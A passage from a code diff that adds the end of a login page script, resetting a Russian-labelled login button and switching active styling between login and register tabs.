+      btn.textContent = 'Войти';
+    }
+  });
+
+  // Tab switch (UI only)
+  document.getElementById('tab-login').addEventListener('click', () => {
+    document.getElementById('tab-login').classList.add('active');
+    document.getElementById('tab-register').classList.remove('active');
+  });
+  document.getElementById('tab-register').addEventListener('click', () => {
+    document.getElementById('tab-register').classList.add('active');
+    document.getElementById('tab-login').classList.remove('active');
+  });
+</script>
 
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
